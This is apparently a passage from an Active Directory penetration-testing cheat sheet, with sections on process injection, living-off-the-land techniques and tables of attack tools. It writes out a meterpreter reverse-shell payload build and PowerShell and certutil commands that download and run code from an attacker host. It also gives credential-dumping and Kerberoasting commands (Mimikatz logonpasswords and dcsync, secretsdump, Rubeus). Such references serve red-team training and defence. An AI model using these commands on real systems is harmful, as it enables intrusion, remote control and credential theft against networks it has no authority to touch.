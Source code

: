 ### Process Injection

```bash
# Reflective DLL Injection
python3 psexec.py -k -no-pass domain.com/username@target-hostname -codec 'windows-1252'

# Process Hollowing
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o payload.exe
```

### Living Off The Land

```bash
# PowerShell Download Cradle
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://attacker-ip/script.ps1')"

# Certutil Download
certutil -urlcache -split -f http://attacker-ip/file.exe file.exe
```

---

## Tools Arsenal

### Enumeration Tools

| Tool | Purpose | Usage |
|------|---------|-------|
| **BloodHound** | AD Relationship Mapping | `bloodhound-python -u user -p pass -d domain.com -dc dc.domain.com -c all` |
| **PowerView** | PowerShell AD Enumeration | `Get-NetDomain`, `Get-NetUser`, `Get-NetGroup` |
| **ldapdomaindump** | LDAP Information Dumping | `ldapdomaindump -u domain\\user -p pass dc-ip` |
| **enum4linux** | SMB/LDAP Enumeration | `enum4linux -a target-ip` |

### Attack Tools

| Tool | Purpose | Usage |
|------|---------|-------|
| **Impacket** | Python AD Attack Suite | `secretsdump.py`, `GetUserSPNs.py`, `psexec.py` |
| **Rubeus** | .NET Kerberos Abuse | `Rubeus.exe kerberoast`, `Rubeus.exe asreproast` |
| **Mimikatz** | Credential Extraction | `sekurlsa::logonpasswords`, `lsadump::dcsync` |
| **CrackMapExec** | Network Enumeration/Attack | `crackmapexec smb targets.txt -u user -p pass` |

### Post-Exploitation

| Tool | Purpose | Usage |
|------|---------|-------|
| **PowerUpSQL** | SQL Server Enumeration | `Get-SQLInstanceDomain`, `Invoke-SQLAudit` |
| **Empire** | Post-Exploitation Framework | `agents`, `modules`, `listeners` |
| **Cobalt Strike** | Advanced Threat Emulation | `beacon`, `malleable-c2` |

